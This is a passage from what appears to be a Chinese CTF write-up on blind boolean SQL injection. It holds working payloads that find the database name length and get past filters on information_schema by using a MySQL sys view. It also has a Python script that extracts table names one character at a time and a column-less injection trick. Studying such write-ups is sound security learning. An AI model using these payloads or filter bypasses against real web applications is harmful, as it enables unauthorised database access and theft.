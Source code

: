 库名长度:

```
id=1^(length(database())=21)#  返回Error Occured When Fetch Result.
```

起这么长的名字干啥🤨

剩下的用脚本搞,上脚本之前先试试其他的过滤词

```
id=1^(ascii(substr((select group_concat(table_name) from mysql.innodb_table_stats where database_name=database()),1,1))=97)#
被检测到

把mysql.innodb_table_stats 换成 information_schema仍会被过滤
换成sys.x$schema_table_statistics_with_buffer 不会被过滤


id=1^ (substr((select group_concat(table_name) from sys.x$schema_table_statistics_with_buffer where table_schema= database()),1,1)='a') #

表名:users233333333333333,f1ag_1s_h3r3_hhhhh  
```

脚本:

```python
def get_table_name():
    tables_name = ""
    for i in range(1,50):
        for c in chars:

            data = {
                'id': "1^(substr((select group_concat(table_name) from sys.x$schema_table_statistics_with_buffer where table_schema= database()),{},1)='{}')#".format(i, c)
            }
            res = session.post(base_url, data=data).text
            print(data['id'])
            # print(res)
            if "Error Occured When Fetch Result." in res:
                tables_name += c
                print(tables_name)
                break
```



这里由于`information_schema`被过滤了,所以接下来还需要进行无列名注入:

这里学到了一个无列名注入的新姿势:

```
id=1^((select 1,1)>(select * from f1ag_1s_h3r3_hhhhh))  返回Error Occured When Fetch Result. 
id=1^((select 1,1,1)>(select * from f1ag_1s_h3r3_hhhhh))  返回bool(false)
这里说明目标表有两列
```
